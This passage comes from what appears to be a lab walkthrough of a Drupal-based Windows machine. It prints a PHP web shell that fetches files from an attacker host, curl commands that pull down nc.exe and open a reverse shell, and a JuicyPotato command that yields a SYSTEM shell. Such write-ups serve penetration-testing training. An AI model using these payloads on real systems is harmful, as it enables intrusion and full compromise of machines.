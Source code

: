 4. From here, I was able to enable the 'PHP Filter' module (under the modules menu) and then create a post containing the code below, being sure to change the text format to PHP code so it would execute. 

   ```php
   <?php if (isset($_REQUEST['fupload'])) {
     file_put_contents($_REQUEST['fupload'], file_get_contents("http://10.10.14.37:80/" . $_REQUEST['fupload']));
   };
   
   if (isset($_REQUEST['fexec'])) {
     echo "<pre>" . shell_exec($_REQUEST['fexec']) . "</pre>";
   };
   ?>
   ```

5. I ran commands against the script to download nc.exe to the target and run it to get a reverse shell as iusr

   ```bash
   curl http://10.10.10.9/thepage.php?fupload=nc.exe
   curl http://10.10.10.9/thepage.php?fexec=nc.exe+10.10.14.37+8000+-e+cmd.exe
   ```

   ![image-20201112212540916](.Report.assets/image-20201112212540916.png)

6. After enumerating, I found this server is Windows Server 2008 R2 Datacenter x64 and the user has the SeImpersonatePrivilege, so I used the JuicyPotato exploit (64-bit)  and the CLSID of the wuasuserv system account to spawn a new netcat shell as the SYSTEM user:

   ```powershell
   JuicyPotato.exe -l 1337 -p c:\coyote\nc.exe -a "-nv 10.10.14.37 8001 -e cmd.exe" -t * -c {9B1F122C-2982-4e91-AA8B-E071D54F2A4D}
   ```

   ![image-20201112214017863](.Report.assets/image-20201112214017863.png)

7. From this prompt, I was able to view the contents of the root.txt and user.txt files: